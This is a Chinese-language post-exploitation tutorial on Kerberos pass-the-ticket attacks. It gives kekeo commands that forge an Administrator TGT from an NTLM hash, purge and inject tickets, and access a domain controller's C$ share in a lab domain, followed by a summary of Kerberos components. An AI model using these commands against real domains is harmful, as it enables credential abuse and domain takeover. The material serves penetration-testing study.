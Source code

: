 ```yaml
---
title: 【后渗透】票据传递攻击
---
```

## 票据传递攻击

> 票据传递（Pass the Ticket，PtT），使用 Kerberos票据，不需要管理员权限，攻击有效期是在票据有效期之内(一般为7天)。
>
> 在微软活动目录中颁发的TGT是可移植的，由于Kerberos的无状态特性，TGT中并没有关于票据来源的标识信息。
>
> 这意味着可以从某台计算机上导出一个有效的TGT，然后导入到该环境中其他的计算机上。
>
> 新导入的票据可以用于域的身份认证，并拥有票据中指定用户的权限来访问网络资源。

工具kekeo：https://github.com/gentilkiwi/kekeo/releases 

（1）在当前目录生成一个高权限票据文件

```bash
kekeo.exe "tgt::ask /user:Administrator /domain:wintrysec.lab /ntlm:f3a0acba8bcfb8a0896281bbfcb793ed" exit
```

（2）使用系统自带命令，清除内存中的票据

```baash
klist purge
```

（3）将票据文件导入内存

```bash
kekeo "kerberos::ptt TGT_administrator@WINTRYSEC.LAB_krbtgt~wintrysec.lab@WINTRYSEC.LAB.kirbi" exit
```

（4）列出远程主机的文件

```bash
dir \\DC\c$
```

`比较典型的金票和银票留域后门就是票据传递攻击`

## Kerberos认证协议

Kerberos是一种基于票据的集中式的认证方式，认证过程涉及到三方：Client、Server、KDC。

在Windows域环境中，KDC的角色常常由DC（域控制器）来担任。

票据（Ticket）用来安全的在认证服务器和用户请求的服务之间传递用户的身份。

> **KDC**（Key Distribution Center）：密钥分发中心，kerberos认证服务器，由AS和TGS组成，在认证中会访问 AD数据库；
>
> **AS**（Authentication Server）：身份认证服务
>
> **TGS**（Ticket Granting Server）：票据授予服务，该服务提供的票据为（**白银票据**）
>
> **TGT**（Ticket Granting Ticket）：身份认证服务授予的票据（**黄金票据**），用于身份认证，存储在内存，默认有效期为10小时

在域环境中，每个用户账号的票据都是由Krbtgt生成的，这个账号的密码，储存在域控服务上 。

------

关于内网协议的深入研究可以参考 daiker 师傅的总结（Kerberos、NTML、LDAP）

地址：https://daiker.gitbook.io/windows-protocol/ 